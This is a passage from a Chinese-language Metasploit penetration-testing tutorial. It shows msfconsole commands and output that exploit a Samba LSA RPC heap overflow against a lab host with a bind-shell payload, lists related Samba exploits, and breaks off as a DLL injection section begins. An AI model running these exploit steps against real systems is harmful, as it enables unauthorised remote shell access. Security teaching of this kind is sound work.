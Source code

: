 ```
    ```

1.  我们的下一个任务是选择有效载荷。我们必须记住一件事，即我们正在针对 Linux 机器，因此我们必须为渗透过程选择一个 Linux 有效载荷。我们将使用`linux/x86/shell_bind_tcp`有效载荷，它与我们在之前的 Windows 示例中分析的`bind_tcp`有效载荷类似。

```
    msf exploit(lsa_transnames_heap) > set payload linux/x86/shell_bind_tcp
    payload => linux/x86/shell_bind_tcp
    msf exploit(lsa_transnames_heap) > show options
    Module options (exploit/linux/samba/lsa_transnames_heap):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST 192.168.56.101 yes The target address
    RPORT 445 yes Set the SMB service port
    SMBPIPE LSARPC yes The pipe name to use
    Payload options (linux/x86/shell_bind_tcp):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    LPORT 4444 yes The listen port
    RHOST 192.168.56.101 no The target address 
    ```

1.  我们现在已经准备好了，我们的最后一步将是提供利用命令来开始利用过程：

```
    msf exploit(lsa_transnames_heap) > exploit
    [*] Started bind handler
    [*] Creating nop sled....
    [*] Trying to exploit Samba with address 0xffffe410...
    [*] Connecting to the SMB service... 
    ```

成功执行利用后，我们将获得与目标机器的 shell 连接。该过程与我们在之前的示例中讨论的非常相似。唯一的区别在于选择利用和有效载荷。尝试不同的利用和有效载荷组合，将更好地帮助您理解它。

## 它是如何工作的...

让我们快速了解一下服务、其利用和工作的相关内容。Samba 用于 Linux 和 Windows 机器之间的打印和文件共享。该模块触发了 Samba 守护程序的 LSA RPC 服务中的堆溢出。该模块使用了 talloc 块覆盖方法（由 Ramon 和 Adriano 提供），该方法仅适用于 Samba 版本 3.0.21-3.0.24。该利用利用了堆中的动态内存分配。利用可能在第一次尝试时不成功，因此您可以尝试多次以实现成功。

## 还有更多...

让我们再来看一些与 Linux 操作系统相关的更多相关模块。

### Linux 的其他相关利用模块

除了本示例中讨论的利用模块外，还有两个模块值得关注。强烈建议您手动尝试这些利用以深入了解它们。它们是：

+   **Samba chain_reply 内存损坏：**该利用通过破坏 Samba 版本 3.3.13 之前分配给响应数据包的内存来工作。内存通过传递大于目标缓冲区大小的值而崩溃。

+   **Samba trans2open 溢出：**这是 Samba 版本 2.2.0 至 2.2.8 存在的缓冲区溢出漏洞。它通过利用在未设置`noexec`堆栈选项的 x86 Linux 机器上的缺陷来工作。

# 了解 Windows DLL 注入漏洞

在这个示例中，我们将处理一种特殊类型的漏洞，这种漏洞并不直接存在于 Windows 操作系统中。事实上，它存在于运行在 Windows 上的各种应用软件中。这种远程攻击向量涉及影响应用程序如何加载外部库的一类漏洞。我们将对这个问题进行概述，以便进行仔细分析。

## 准备工作

这种攻击向量涉及创建一个脆弱的路径或目录，目标将不得不执行以触发它。该目录可以是文件、提取的存档、USB 驱动器、网络共享等。创建的文件将是完全无害的，但它将执行一个 DLL 注入代码来破坏系统。

## 如何操作...

```